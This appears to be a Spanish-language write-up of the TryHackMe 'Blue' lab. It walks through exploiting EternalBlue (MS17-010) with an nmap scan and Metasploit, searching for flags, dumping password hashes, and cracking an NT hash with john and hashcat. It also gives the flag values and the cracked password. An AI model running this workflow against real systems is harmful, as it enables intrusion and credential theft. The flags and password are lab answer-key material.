

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/tryhackme/blue/index.html · generator: mkdocs

# Blue

![](../../assets/img/Pasted_image_20251014123728.png)

EternalBlue es MS17, hay un script en nmap que nos sirve para comprobar si es vulnerable:
`nmap -T5 -p445 --script vuln 10.10.209.7`

![](../../assets/img/Pasted_image_20251014125216.png)

Explotamos con metasploit:
`windows/smb/ms17_010_eternalblue`
`set LHOST 10.8.63.150`
`set RHOSTS 10.10.209.7`
**NT AUTHORITY\SYSTEM**

flags
nos abrimos una `shell`
Con el comando
`dir /s /b *flag* `
Podemos ver el path de las flags:
*C:\flag1.txt
C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag1.lnk
C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag2.lnk
C:\Users\Jon\AppData\Roaming\Microsoft\Windows\Recent\flag3.lnk
C:\Users\Jon\Documents\flag3.txt
C:\Windows\System32\config\flag2.txt*
En `C:\>type flag1.txt`
`flag{access_the_machine}`
En `C:\Windows\System32\config\`
`flag{sam_database_elevated_access}
Si vamos a `\Users\Jon\Documents>flag3.txt`
`flag{admin_documents_can_be_valuable}`

## Escalada

`hashdump`

![](../../assets/img/Pasted_image_20251014132747.png)

`echo ffb43f0de35be4d9917ac0cc8ad57f8d > hash.txt`
Intentamos crackear el hash para sacar la contraseña
`john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
ó
`hashcat -m 1000 -a 0 ffb43f0de35be4d9917ac0cc8ad57f8d /usr/share/wordlists/rockyou.txt`
**alqfna22**
